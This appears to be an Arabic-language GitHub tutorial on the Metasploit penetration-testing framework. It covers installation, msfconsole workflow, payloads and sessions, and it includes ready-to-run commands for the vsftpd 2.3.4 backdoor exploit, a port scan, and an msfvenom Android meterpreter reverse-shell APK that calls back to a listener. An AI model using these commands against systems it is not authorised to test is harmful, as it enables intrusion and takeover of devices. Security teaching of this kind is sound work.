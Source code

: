 # Metasploit Framework  
الدليل الأكاديمي الشامل لاستخدام أقوى منصة اختبار إختراق 

## مقدمة

Metasploit Framework هي منصة مفتوحة المصدر متكاملة لاختبار الاختراق، تُستخدم لاكتشاف الثغرات الأمنية واستغلالها بطريقة منظمة وأدوات متقدمة. تطورت Metasploit لتصبح أداة لا غنى عنها لكل مهندس أمن سيبراني أو مختبر اختراق محترف.

تكمن قوة Metasploit في:

- مكتبة ضخمة من الثغرات والاستغلالات (Exploits) الجاهزة
- أدوات مساعدة لبناء الحمولة (Payloads) وتقنيات التسلل
- واجهة تفاعلية (CLI وGUI) سهلة الاستخدام
- إمكانية الدمج مع أدوات أخرى لتعزيز الاختبارات الأمنية

## 1. تركيب Metasploit

### 1.1 على توزيعات لينكس (كالي، أوبونتو)

sudo apt update && sudo apt upgrade -y
sudo apt install metasploit-framework

 ملاحظة: في بعض التوزيعات قد تحتاج لتنزيل Metasploit من الموقع الرسمي أو بناءه من المصدر للحصول على أحدث نسخة



1.2 على Termux (أندرويد)

Metasploit غير متوفر رسميًا على Termux، لكن يمكن تثبيته عبر مشاريع خارجية مثل Termux-Metasploit:


pkg install unstable-repo
pkg install metasploit
msfconsole



2. المفاهيم الأساسية في Metasploit

المصطلح	الشرح

Exploit	كود يستغل ثغرة معينة لاختراق النظام أو التطبيق
Payload	الحمولة أو الكود الذي يُرسل بعد نجاح الاستغلال لتنفيذ مهام محددة (مثل فتح شل)
Module	وحدة في Metasploit، تشمل Exploits, Payloads, Auxiliaries
Listener (Handler)	عنصر يستمع لاتصالات قادمة من الجهاز المخترق
Session	الجلسة المفتوحة بعد نجاح الاستغلال



3. بنية Metasploit

Metasploit مقسمة إلى عدة مكونات رئيسية:

msfconsole: الواجهة النصية الأكثر استخدامًا

msfcli: واجهة سطر أوامر بسيطة.

msfvenom: أداة لتوليد الحمولة (Payload) بشكل مستقل

Modules: مكتبة ضخمة من وحدات الاستغلال والحمولات



4. بدء العمل مع Metasploit

4.1 تشغيل msfconsole

msfconsole

ستظهر واجهة تفاعلية يمكنك من خلالها البحث تحميل وضبط الوحدات

4.2 البحث عن Exploit

search type:exploit name:ftp

هذا يبحث عن كل الثغرات المتعلقة بـ FTP

4.3 اختيار Exploit وتحميله

use exploit/unix/ftp/vsftpd_234_backdoor

4.4 ضبط المتغيرات

show options

set RHOSTS 192.168.1.105
set RPORT 21
set PAYLOAD cmd/unix/interact

4.5 تنفيذ الاستغلال

exploit


5. أنواع الحمولة (Payloads)

Singles: حمولة مستقلة تنفذ مهمة واحدة مثل فتح شل.

Stagers: حمولة خفيفة تحضر الاتصال قبل تحميل الحمولة الكبيرة.

Stages: الحمولة الكبيرة التي تُرسل بعد Stager


6. msfvenom - توليد الحمولة

مثال لتوليد ملف شل مقلوب (Reverse Shell) لأندرويد:

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o shell.apk


7. استخدام Auxiliary Modules

هي أدوات مساعدة مثل فحص الشبكات، جمع المعلومات، وغيرها

مثال لفحص البورتات:

use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
run



8. إدارة الجلسات

عرض الجلسات المفتوحة:

sessions

الدخول إلى جلسة معينة:

sessions -i 1


9. نصائح مهمة

لا تستخدم Metasploit إلا بعد الحصول على إذن قانوني صريح

استغل قوة الأتمتة مع الحذر ولا تعتمد على الاستغلال الأوتوماتيكي فقط

راقب دائمًا استجابة النظام المستهدف

احفظ نتائج عملك وسجل التقدم




10. حل المشاكل الشائعة

10.1 مشكلة: msfconsole لا يعمل

تحقق من تثبيت Ruby بشكل صحيح

تحديث Metasploit:


msfupdate

10.2 مشكلة: أخطاء في الشبكة

تحقق من إعدادات جدار الحماية

تأكد من صحة IP والمنفذ

11. مصادر التعلم

الموقع الرسمي لـ Metasploit

كتاب "Metasploit: The Penetration Tester’s Guide"

قناة "NetworkChuck" على يوتيوب

Rapid7 Community


خاتمة

Metasploit ليست مجرد أداة بل هي منصة متكاملة تجمع بين المعرفة التقنية والأدوات العملية لتمنحك القدرة على اختبار أمن الأنظمة بشكل احترافي إتقانها مفتاح لاحتراف الاختراق الأخلاقي
